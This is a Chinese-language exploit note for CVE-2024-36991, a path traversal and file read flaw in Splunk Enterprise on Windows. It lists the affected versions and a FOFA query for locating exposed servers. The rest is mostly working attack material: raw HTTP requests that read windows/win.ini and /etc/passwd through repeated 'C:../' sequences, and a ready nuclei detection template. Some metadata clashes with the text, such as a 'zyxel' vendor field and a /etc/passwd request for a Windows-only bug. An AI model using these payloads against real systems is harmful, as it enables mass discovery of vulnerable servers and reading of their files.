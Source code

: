 ## Splunk-Enterprise任意文件读取漏洞

Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。2024年7月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows平台 modules/messaging 目录遍历漏洞。漏洞仅影响 Windows平台上的 Splunk Enterprise，官方已发布安全更新，建议升级至最新版本。

## 影响范围

9.2.0 <= Splunk Enterprise < 9.2.2

9.1.0 <= Splunk Enterprise < 9.1.5

9.0.0 <= Splunk Enterprise < 9.0.10

## fofa

```
app="splunk-Enterprise"
```

## poc

```yaml
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS x86_64 14541.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
```

```yaml
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

## **nuclei poc**

```yaml
id: CVE-2024-36991

info:
  name: Splunk Enterprise for Windows 任意文件读取漏洞
  author: fgz
  severity: high
  description: |
    Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。2024年7月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows平台 modules/messaging 目录遍历漏洞。漏洞仅影响 Windows平台上的 Splunk Enterprise，官方已发布安全更新，建议升级至最新版本。
  reference:
    - https://advisory.splunk.com/advisories/SVD-2024-0711
    - https://research.splunk.com/application/e7c2b064-524e-4d65-8002-efce808567aa
  classification:
    cvss-score: 7.1
    cve-id: CVE-2024-36991
  metadata:
    verified: true
    max-request: 1
    vendor: zyxel
    product: Splunk Enterprise
    fofa-query: app="splunk-Enterprise"
  tags: cve,cve2024,splunk-Enterpris

http:
  - raw:
      - |
        GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200"
          - "contains(body, '; for 16-bit app support')"
        condition: and
```

